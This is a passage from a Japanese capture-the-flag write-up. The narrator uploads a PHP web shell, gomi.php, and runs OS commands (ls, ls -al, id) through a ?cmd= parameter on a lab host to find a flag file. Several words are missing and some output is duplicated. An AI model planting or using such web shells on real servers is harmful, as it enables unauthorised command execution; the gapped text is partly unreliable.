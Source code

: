 ということで、直ちにスクリプトを書く。



これをなどと適当なPHPファイルとして設置すれば、
あらゆるOSコマンドを動かすことが出来るようになる。

\begin{screen}
\centering
gomi.phpをアップロードしました。
\end{screen}

「おーぴー、にをアップした。
これで任意のOSコマンドを使える」

さて、とりあえずをしてみるか。
\url{http://10.2.0.3/stage3xYz/images/gomi.php?cmd=ls ../}を実行してみよう。

\begin{lstlisting}
HINT-1:_Use_SSH
HINT-2:_Append_Only
images
index.php
index.php
\end{lstlisting}

？なんだこれは？
まあとりあえず、FLAGを見てみるか。

\url{http://10.2.0.3/stage3xYz/images/gomi.php?cmd=ls ../../}へアクセス。

\begin{lstlisting}
FLAG
eng.txt
index.html
jpn.txt
stage1.cgi
stage2
stage3xYz
stage3xYz
\end{lstlisting}

なるほどね。
最初に見えたApacheのファイル一覧みたいなものは、
単に見た目をそっくりに偽装したが置いてあっただけか。

さて、FLAGのパーミッションは確認した方がいいな。
\url{http://10.2.0.3/stage3xYz/images/gomi.php?cmd=ls -al ../../}だ。



なるほど、になればに書けるってわけか。

しかし先ほどのヒント、「Use\_SSH」とはどういうことなのだろうか。
SSHでログインするにしても、ユーザー名も分からぬこの状況ではどうしようもない……。
いや、今このを実行しているユーザーならば特定出来る。
\url{http://10.2.0.3/stage3xYz/images/gomi.php?cmd=id}だ。

\begin{lstlisting}
uid=502(stage4) gid=502(stage4) groups=502(stage4),0(root) uid=502(stage4) gid=502(stage4) groups=502(stage4),0(root) 
\end{lstlisting}

